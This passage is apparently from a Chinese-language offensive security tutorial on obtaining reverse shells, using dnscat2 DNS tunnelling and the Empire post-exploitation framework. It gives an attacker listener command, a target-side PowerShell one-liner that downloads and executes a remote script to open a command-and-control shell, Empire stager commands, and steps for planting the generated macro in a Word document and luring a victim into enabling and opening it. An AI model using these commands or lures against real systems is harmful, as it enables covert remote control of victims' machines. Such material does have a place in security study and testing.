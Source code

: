 ```` [![](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)

dnscat2([https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2) )是一个DNS隧道，旨在通过DNS协议创建加密的命令和控制（C＆C）通道。dnscat2分为两部分：客户端和服务器。dnscat2客户端采用C语言编写，服务器端采用ruby语言编写。后来又有安全研究人员使用PowerShell脚本重写了dnscat2客户端dnscat2-powershell([https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell))

利用dnscat2 和 dnscat2-powershell实现反弹DNS shell:

攻击者(Ubuntu 14.04 LTS 192.168.159.129)开启监听：<br>`ruby dnscat2.rb --dns "domain=lltest.com,host=192.168.159.129" --no-cache -e open`<br>
-e open 不使用加密连接，默认使用加密<br>
ruby dnscat2.rb —help 查看帮助

目标机执行：<br>`powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer 192.168.159.129`<br>
成功反弹shell后，攻击者：<br>`session -i 1 #进入到session 1`<br>`shell  #执行之后会新生成一个session  需要通过session -i 2 切换`<br>`session -i 2`<br>[![](https://p0.ssl.qhimg.com/t017cde53535692e80c.png)](https://p0.ssl.qhimg.com/t017cde53535692e80c.png)

[![](https://p5.ssl.qhimg.com/t01fcafec48c894153d.png)](https://p5.ssl.qhimg.com/t01fcafec48c894153d.png)

[![](https://p5.ssl.qhimg.com/t01ad13f367a43f1991.png)](https://p5.ssl.qhimg.com/t01ad13f367a43f1991.png)

[![](https://p0.ssl.qhimg.com/t01b0bc38ec839d94bc.png)](https://p0.ssl.qhimg.com/t01b0bc38ec839d94bc.png)



## Empire 结合office反弹shell

Empire([https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire) ) 基于powershell的后渗透攻击框架，可利用office 宏、OLE对象插入批处理文件、HTML应用程序(HTAs)等进行反弹shell

### <a class="reference-link" name="%E5%88%A9%E7%94%A8office%20%E5%AE%8F%E5%8F%8D%E5%BC%B9shell"></a>利用office 宏反弹shell

攻击者(192.168.159.134)开启监听:<br>`uselistener http`<br>`execute`<br>`back`<br>`usestager windows/macro http  #生成payload`<br>`execute`<br>[![](https://p3.ssl.qhimg.com/t01ebd92ae5c2752d1a.png)](https://p3.ssl.qhimg.com/t01ebd92ae5c2752d1a.png)

[![](https://p4.ssl.qhimg.com/t01c424d48628a2722b.png)](https://p4.ssl.qhimg.com/t01c424d48628a2722b.png)<br>
生成/tmp/macro 攻击代码后，新建一个word 创建宏

[![](https://p1.ssl.qhimg.com/t017c0553a3aab1b9de.png)](https://p1.ssl.qhimg.com/t017c0553a3aab1b9de.png)<br>
点击“文件”-“宏”-“创建”，删除自带的脚本，复制进去/tmp/macro文件内容，并保存为“Word 97-2003文档(**.doc)”或者“启用宏的Word 文档(**.docm)”文件，当诱导目标打开，执行宏后，即可成功反弹shell：<br>
说明:需要开启宏或者用户手动启用宏。开启宏设置：“文件”-“选项”-“信任中心”,选择“启用所有宏”

[![](https://p4.ssl.qhimg.com/t0110d78f8b6dc573b7.png)](https://p4.ssl.qhimg.com/t0110d78f8b6dc573b7.png)

[![](https://p5.ssl.qhimg.com/t0153edfb39e2d25b0e.png)](https://p5.ssl.qhimg.com/t0153edfb39e2d25b0e.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8office%20OLE%E5%AF%B9%E8%B1%A1%E6%8F%92%E5%85%A5bat%E6%96%87%E4%BB%B6%E5%8F%8D%E5%BC%B9shell"></a>利用office OLE对象插入bat文件反弹shell

````